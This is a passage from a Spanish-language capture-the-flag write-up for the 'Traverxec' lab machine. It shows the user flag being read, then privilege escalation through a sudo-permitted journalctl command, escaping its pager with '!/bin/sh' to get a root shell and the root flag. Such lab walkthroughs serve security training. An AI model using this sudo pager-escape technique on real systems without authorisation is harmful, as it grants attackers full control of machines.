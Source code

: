 Y como observamos en la siguiente consola, ya nos encontramos dentro del sistema y la flag se encuentra en el archivo `user.txt`

```bash
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt 
7db0b4..........................
```




## Escalamiento de privilegios

Después de realizar la enumeración en los directorios disponibles para el usuario, encontramos un archivo que tiene un comando, que el usuario `david` puede ejecutar con privilegios

```bash
david@traverxec:~$ cd bin/
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

El comando que puede ejecutar con privilegios es `journalctl` que en esencia, permite visualizar los archivos del log del sistema. Revisando en la página [GTFOBins](https://gtfobins.github.io/) que contiene una lista de binarios en Unix que pueden ser explotados,  buscamos  `journalctl` y la función `sudo` y ejecutamos el comando `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` y posteriormente escribimos `!/bin/sh` en la consola que se crea y ya obtendremos la flag de root.

```bash
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2020-06-03 00:25:20 EDT, end at Wed 2020-06-03 00:28:39 EDT. --
Jun 03 00:25:24 traverxec systemd[1]: Starting nostromo nhttpd server...
Jun 03 00:25:24 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) after start: No such f
Jun 03 00:25:24 traverxec nhttpd[457]: started
Jun 03 00:25:25 traverxec nhttpd[457]: max. file descriptors = 1040 (cur) / 1040 (max)
Jun 03 00:25:25 traverxec systemd[1]: Started nostromo nhttpd server.
~
~
~
!/bin/sh
# whoami
root
# cat /root/root.txt
9aa36a........................
```

